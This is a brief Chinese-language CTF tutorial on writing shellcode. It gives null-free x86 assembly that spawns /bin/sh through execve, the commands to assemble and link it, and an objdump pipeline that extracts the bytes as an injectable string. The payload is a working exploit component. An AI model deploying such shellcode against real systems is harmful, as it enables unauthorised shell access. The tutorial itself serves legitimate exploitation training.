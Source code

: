 ```yaml
---
title: 【CTF】shellcode编写.md
---
```

# 编写汇编代码
```nasm
section .text
    global _start

_start:
    xor eax,eax
    push eax
    push 0x68732f6e
    push 0x69622f2f
    mov ebx,esp
    mov al,0xb
    xor ecx,ecx
    xor edx,edx
    int 80h
```
注意：由于转换为shellcode如果出现00，则有可能被识别为终止符，所以需要避免出现。故将mov eax,0xb修改为mov al,0xb

# 编译汇编代码
```shell
nasm -f elf asm/exec.asm && ld -m elf_i386 -s -o exec asm/exec.o
```

# 导出shellcode
```shell
objdump -d ./exec|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```